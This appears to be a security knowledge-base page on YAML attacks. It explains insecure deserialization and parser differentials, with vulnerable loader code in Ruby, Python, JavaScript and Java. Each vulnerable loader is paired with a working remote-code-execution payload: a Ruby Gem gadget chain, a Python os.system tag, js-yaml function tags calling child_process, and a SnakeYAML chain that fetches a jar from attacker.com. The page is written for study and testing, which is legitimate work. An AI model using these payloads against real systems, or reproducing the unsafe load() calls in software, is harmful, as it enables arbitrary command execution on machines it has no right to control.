 ```yaml
---
description: Yet Another Markup Language
---
```


# YAML

## Description

First of all, this great article explains all sorts of tricks and weirdness in YAML:

{% embed url="https://ruudvanasseldonk.com/2023/01/11/the-yaml-document-from-hell" %}
Explanation and examples of many YAML tricks
{% endembed %}

## Insecure Deserialization

In YAML the `!` character can mean a **tag**, which allows you to execute a function in the host language with a parameter that comes right after (because why not). Many parsers implement this as it is required by the spec, but if attackers have control over the YAML file, even partially, they can use these tags to run arbitrary functions with arbitrary arguments.&#x20;

A common target for this is a function that executes shell commands, where you can gain Remote Code Execution. The following examples all execute the `id` command and allow you to execute any arbitrary commands:

### Ruby

{% code title="Vulnerable Code" %}
```ruby
require "yaml"

YAML.load(File.read("data.yml"))
```
{% endcode %}

#### Payload (>2.7, [source](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/))

{% code title="data.yml" %}
```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "id"
         method_id: :resolve
```
{% endcode %}

### Python

{% code title="Vulnerable Code" %}
```python
from yaml import Loader, load

deserialized = load(open('data.yml'), Loader=Loader)
```
{% endcode %}

#### Payload

{% code title="data.yml" %}
```yaml
!!python/object/apply:os.system
- "id"
```
{% endcode %}

### JavaScript - `js-yaml` (<4.0)

This popular JavaScript library allows the creation of arbitrary functions like `.toString()` which can be called accidentally, when using `load()` instead of `safeLoad()` in versions below 4:

{% code title="Vulnerable Code" %}
```javascript
const yaml = require('js-yaml');
const fs = require('fs');

const res = yaml.load(fs.readFileSync('data.yml'));
console.log(res + "")  // Calls .toString() as trigger
```
{% endcode %}

#### Payloads

{% code title="data.yml" %}
```yaml
"toString": !<tag:yaml.org,2002:js/function> "function (){console.log(process.mainModule.require('child_process').execSync('id').toString())}"
```
{% endcode %}

{% code title="data.yml" %}
```yaml
toString: !!js/function >
  function () {
      console.log(process.mainModule.require('child_process').execSync('id').toString())
  }
```
{% endcode %}

### Java - SnakeYAML (<2.0)

{% embed url="https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471" %}
Walkthrough of vulnerability as theory and exploitability
{% endembed %}

{% code title="Vulnerable Code" %}
```java
import org.yaml.snakeyaml.Yaml;

Yaml yaml = new Yaml();
FileInputStream fis = new FileInputStream("data.yml");
Map<String, Object> parsed = yaml.load(fis);
```
{% endcode %}

#### Payload

{% code title="data.yml" %}
```yaml
some_var: !!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL ["http://attacker.com/payload.jar"]
    ]]
]
```
{% endcode %}

`/payload.jar` file:

1. [Explanation](https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471) (search "remote jar file")
2. [Proof of Concept](https://github.com/jordyv/poc-snakeyaml) with `build.sh` script (change [`exec()`](https://github.com/jordyv/poc-snakeyaml/blob/master/src/pocsnakeyaml/PocScriptEngineFactory.java#L18))

## Parser differentials

The complex nature of YAML makes parsing it consistently a hard task. This results in slight differences between implementations that may confuse a _check_ and a _use_. Below is an example that results in `lang: ...` with 3 different values depending on which language's standard library parses it.

```yaml
lang: Python
!!binary bGFuZw==: Go
!binary bGFuZw: Ruby
```

Another more extreme example that requires some specific features supports a lot more languages ([by @taramtrampam](https://gist.github.com/taramtrampam/fca4e599992909b48a3ba1ce69e215a2)):

```yaml
!!binary bGFuZx==: ruby
!!binary lang: rust
!!binary bGFuZy==: node
alias-lang: &lang !!binary bGFuZz==
? *lang
: go
alias-lang2: !!str &lang2 lang
<<: [
  {
    ? *lang2 : java,
  },
]
!!merge qwerty: {lang: "python"}l
```

Watch ["Parser Differentials - joernchen at OffensiveCon 2025"](https://www.youtube.com/watch?v=Dq_KVLXzxH8) to learn more.
